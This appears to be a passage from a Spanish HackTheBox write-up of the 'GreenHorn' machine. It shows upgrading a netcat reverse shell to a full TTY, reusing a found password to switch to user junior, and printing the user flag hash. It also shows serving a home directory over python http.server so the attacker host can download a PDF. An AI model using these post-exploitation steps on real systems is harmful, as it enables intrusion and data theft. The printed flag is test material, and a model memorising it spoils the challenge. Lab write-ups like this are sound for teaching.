 ```bash
[+] script /dev/null -c bash  # Lanza pseudoconsola
[+] [ctrl+z]  # Suspende la shell actual
[+] stty raw -echo; fg  # Recupera la shell suspendida
[+] reset   # Reinicia la configuración de la terminal
[+] xterm   # Especifica el tipo de terminal a la pregunta de "Terminal type?"
[+] export TERM=xterm   # Asigna xterm a la variable TERM
[+] export SHELL=bash   # Asigna bash a la variable SHELL
[+] stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>  # En mi caso 56 y 236 consultando la stty size de mi terminal
```

En la línea de comandos lo veremos de esta manera:
```bash
script /dev/null -c bash
www-data@greenhorn:$ ^Z
zsh: suspended  sudo nc -nlvp 8043
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/HTB/GreenHorn/exploits/Pluck-4.7.18]
└─$ stty raw -echo; fg
[1]  + continued  sudo nc -nlvp 8043
                                    reset
reset: unknown terminal type unknown
Terminal type? xterm
www-data@greenhorn:$ export TERM=xterm
www-data@greenhorn:$ export SHELL=bash
www-data@greenhorn:$ stty rows 56 columns 237
```
Observando el directorio **/home** vemos que se encuentran dos usuarios, por lo tanto, probamos de autenticarnos con la contraseña **iloveyou1** anteriormente encontrada. El resultado es la autenticación exitosa con **junior**, pudiendo así conseguir la **_user flag_**.
```bash
www-data@greenhorn:/home$ ls -l
ls -l
total 8
drwxr-x--- 2 git    git    4096 Jun 20 06:36 git
drwxr-xr-x 3 junior junior 4096 Jun 20 06:36 junior
www-data@greenhorn:/home$ su junior
Password: 
junior@greenhorn:/home$ whoami
junior
junior@greenhorn:/home$ cat junior/user.txt 
db0b2f9c705bbbd5653b43293582e74f
```
Como vemos en los archivos que contiene **/home/junior**, vemos un PDF que puede ser útil. En este caso, levanto un *http.server* con python3 por el puerto 8000 para acceder vía HTTP desde nuestra máquina amfitrión.  
```bash
junior@greenhorn:~$ ls -la
total 76
drwxr-xr-x 3 junior junior  4096 Jun 20 06:36  .
drwxr-xr-x 4 root   root    4096 Jun 20 06:36  ..
lrwxrwxrwx 1 junior junior     9 Jun 11 14:38  .bash_history -> /dev/null
drwx------ 2 junior junior  4096 Jun 20 06:36  .cache
-rw-r----- 1 root   junior    33 Jul 24 17:20  user.txt
-rw-r----- 1 root   junior 61367 Jun 11 14:39 'Using OpenVAS.pdf'

junior@greenhorn:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.207 - - [24/Jul/2024 17:38:44] "GET / HTTP/1.1" 200 -
```
Accediendo al *Directory List* que hemos levantado, nos descargaremos el archivo llamado *"Using OpenVAS.pdf"* y nos encontramos con una carta, donde podemos observar una posible contraseña root, pero está pixelada.
